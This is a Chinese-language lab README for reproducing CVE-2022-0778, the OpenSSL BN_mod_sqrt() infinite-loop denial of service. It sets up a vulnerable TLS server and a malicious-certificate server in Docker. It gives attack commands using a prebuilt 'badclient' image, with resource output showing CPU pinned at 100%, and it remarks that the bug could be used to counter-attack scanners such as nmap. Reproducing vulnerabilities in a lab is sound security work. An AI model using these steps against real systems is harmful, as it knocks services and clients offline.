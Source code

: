 # CVE-2022-0778

OpenSSL 是一个安全套接字层密码库，囊括主要的密码算法、常用的密钥和证书封装管理功能及SSL协议，并提供丰富的应用程序供测试或其它目的使用。

该漏洞由于计算模平方根的 BN_mod_sqrt() 函数错误导致，该错误可能导致它对于非素数模数无限循环，最终导致拒绝服务。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0778
- https://github.com/yywing/cve-2022-0778
- https://www.cnblogs.com/logchen/p/16030515.html

## 环境搭建

运行如下命令启动了：
- 受漏洞影响的服务端（监听 12345 端口）：OpenSSL 1.1.0f， python 服务器(开启了客户端证书验证)
- 利用漏洞的恶意服务端（监听 12346 端口：返回恶意证书的 go https server

```
docker-compose up -d
```

环境启动后
- `curl -k -v https://localhost:12345` 会提示客户端证书错误（因为开启了客户端证书校验）。
- `nc -v localhost 12346` 显示端口监听（直接 curl 的话如果本地 openssl 再影响范围会直接 cpu 100%）

## 漏洞复现

运行：
```
# attack
docker run -it --rm --entrypoint badclient yywing/cve-2022-0778 --addr host.docker.internal:12345

docker stats --no-stream

CONTAINER ID   NAME                        CPU %     MEM USAGE / LIMIT     MEM %     NET I/O           BLOCK I/O   PIDS
3d948d277a89   cve-2022-0778-server-1      99.87%    7.398MiB / 50.15GiB   0.01%     4.38kB / 5.21kB   0B / 0B     1
ba9d7fd208c3   cve-2022-0778-badserver-1   0.00%     2.77MiB / 50.15GiB    0.01%     2.5kB / 1.55kB    0B / 0B     5
```
当一个受影响的服务器且开启客户端证书校验的时候，一个恶意客户端可以通过发送恶意证书，导致服务端 CPU 飙升。

运行：
```
# client
docker run -it --rm yywing/cve-2022-0778-target curl https://host.docker.internal:12346
# or
docker run -it --rm yywing/cve-2022-0778-target python -c "import http.client;http.client.HTTPSConnection('host.docker.internal', 12345).request('GET', '/')"

docker stats --no-stream

CONTAINER ID   NAME                        CPU %     MEM USAGE / LIMIT     MEM %     NET I/O           BLOCK I/O   PIDS
8ffae845cf96   recursing_dhawan            100.08%   2.801MiB / 50.15GiB   0.01%     2.17kB / 997B     0B / 0B     1
de385c0e76a3   cve-2022-0778-server-1      0.00%     7.375MiB / 50.15GiB   0.01%     878B / 0B         0B / 0B     1
88f476ad4581   cve-2022-0778-badserver-1   0.00%     2.758MiB / 50.15GiB   0.01%     1.78kB / 1.16kB   0B / 0B     5
```
当一个受影响的客户端访问到一个恶意服务器的时候，恶意服务器可以通过发送恶意证书，导致客户端 CPU 飙升。

注：
1. nmap 受影响
2. 感觉红队视角漏洞比较鸡肋，但是蓝队视角用来反制感觉用处很大
